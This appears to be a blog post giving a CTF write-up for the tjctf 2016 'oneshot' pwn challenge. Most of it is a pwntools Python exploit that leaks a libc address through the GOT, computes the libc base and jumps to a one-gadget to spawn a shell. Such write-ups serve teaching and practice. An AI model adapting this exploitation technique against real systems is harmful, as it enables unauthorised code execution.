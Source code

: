 ```yaml
---
layout: post
alias: "/blog/2016/09/16/tjctf-2016-oneshot/"
date: "2016-09-16T17:13:16+09:00"
title: "tjctf 2016 oneshot"
tags: [ "ctf", "writeup", "pwn", "tjctf", "one-gadget-rce" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/tjctf-2016/pwn/oneshot-170" ]
---
```


Do one-gadget RCE.
In Ubuntu 16.04 libc, `0xf0897` is the address.

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./oneshot')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # Ubuntu 16.04
p = process('./oneshot')
p.sendline(str(elf.got['__libc_start_main']))
p.recvuntil('Value: ')
libc_base = int(p.recvline(), 16) - libc.symbols['__libc_start_main']
p.sendline(str(libc_base + 0xf0897))

time.sleep(1)
p.sendline('id')
p.interactive()
```
